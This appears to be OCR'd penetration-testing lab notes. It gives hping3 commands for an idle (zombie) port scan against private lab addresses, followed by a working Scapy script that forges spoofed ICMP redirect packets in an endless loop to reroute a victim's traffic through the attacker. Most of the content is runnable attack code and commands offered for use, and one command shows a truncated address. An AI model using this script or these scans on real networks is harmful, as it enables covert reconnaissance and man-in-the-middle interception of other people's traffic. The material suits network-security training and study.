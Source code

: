 # Use hping3 Idle scan using zombie found to check which of the following hosts have a restricted port open. Restart the Hping scan on the zombie with command (hping3 -S -r -p 135 10.50.97.10). This will show us ID’s on the fly. Open another console and run the following command (hping3 -a 10.50.97.10 -S -p 135 10.50.97). If the zombie ID increment is id=+2 on (Console 1) instead of id=+1, we can deduce that port 135 on the target 10.50.97.5 is open. Otherwise, if the ID still increments by 1, we can deduce that the port is closed.

## ICMP Redirect Attack Scapy script##################################

# Creating and sending ICMP redirect packets
originalRouterIP= '<The router IP address>'
attackerIP= '<Your VPN IP Address>'
victimIP= '<The Victim IP Address>'
serverIP= '<The Web Server IP Address>'
# We create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
while True:
	send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
# Press <enter>

## OTHER NOTES ##################################
